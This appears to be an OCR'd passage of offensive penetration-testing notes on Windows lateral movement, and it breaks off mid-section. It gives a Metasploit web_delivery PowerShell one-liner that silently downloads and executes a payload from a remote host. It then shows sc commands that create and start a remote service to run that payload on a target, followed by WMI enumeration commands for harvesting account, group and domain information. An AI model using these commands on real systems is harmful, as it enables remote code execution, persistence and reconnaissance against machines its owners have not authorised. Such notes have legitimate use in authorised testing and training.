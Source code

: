 ```
##### Executing Commands via Services #####

It is possible to execute commands directly from service binPaths instead of needing a binary.

#### --- MSF: 'web_delivery' --- ####

###### PS Payload ######

```powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n'); ```

###### Windows Attack Box ######

Create a remote service ("metpsh") and set the binPath to execute cmd.exe with our payload:

```sc \\target create metpsh binPath= "%COMSPEC% /Q /c $ps_payload"```

###### Start It ######

```sc \\target start metpsh```


## <----- Using Credentials to Own Windows Boxes - (WMI and WinRM) -----> ##

NOTE: *Working from a Windows attack box utilizing the Windows command line and PowerShell to execute commands via Windows Management Instrumentation (WMI) and Windows Remote Management (WinRM).*

### WMI ###

NOTE: *Windows Management Instrumentation (WMI) is the infrastructure for management data and operations on Windows-based operating systems. Allows remote querying and administration of Windows devices. Like SNMP for Windows infrastructure. From an attacker's perspective, WMI can be very valuable in enumerating sensitive information about a system or the domain.*

Drop to interactive prompt:

```wmic```

Help

```/?```

Note: *When working from the command prompt, it's useful to append "list brief" or "list full" for easy to read output. You can also append "/format:list" in the command line*

Examples...

```wmic computerystem list full /format:list```

```wmic process list /format:list```

```wmic ntdomain list /format:list```  

```wmic useraccount list /format:list```  

```wmic group list /format:list```  

```wmic sysaccount list /format:list```  

#### Remote WMI Querying ####

NOTE: *wmic can be used to query remote systems as well. The command takes the switches /node and /user to specify which host to query and what credentials to authenticate with.*

```wmic```

```
